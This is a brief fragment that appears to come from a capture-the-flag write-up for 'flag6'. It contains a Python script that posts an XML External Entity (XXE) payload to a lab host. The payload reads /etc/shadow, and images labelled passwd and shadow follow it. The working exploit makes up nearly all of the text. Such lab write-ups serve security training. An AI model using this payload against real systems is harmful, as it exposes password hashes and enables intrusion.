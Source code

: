 ![newlines](flag6/newlines.png)

```Python
import requests
xml = '''<?xml version="1.0" encoding="ISO-8859-1"?><!DOCTYPE person [<!ENTITY file SYSTEM "file:///etc/shadow" >]><person><firstname>lol</firstname><lastname>&file;</lastname></person>'''
r = requests.post("http://10.13.37.5", data={'data' : xml})
print(r.text)
```

Passwd:

![passwd](flag6/passwd.png)

Shadow:

![shadow](flag6/shadow.png)
